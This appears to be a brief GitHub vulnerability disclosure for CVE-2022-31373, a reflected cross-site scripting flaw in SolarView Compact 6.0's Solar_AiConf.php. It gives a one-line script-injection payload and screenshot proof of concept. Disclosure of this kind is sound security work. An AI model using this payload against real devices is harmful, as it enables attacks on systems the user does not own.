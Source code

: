 # CVE-2022-31373   
# SolarView_Compact_6.0_xss


### Vulnerability code is Solar_AiConf.php

![image](https://user-images.githubusercontent.com/72059221/169168747-55426da3-9150-4266-b4e3-b0bcfbbdd410.png)



### payload
```
/"><script>alert("XSS")</script>
```


### POC

![image](https://user-images.githubusercontent.com/72059221/169169114-f6b871e6-8b6a-46fa-b007-54588089e2fe.png)



![image](https://user-images.githubusercontent.com/72059221/169169170-0936209d-bad8-4c0b-99f5-f382774670f9.png)

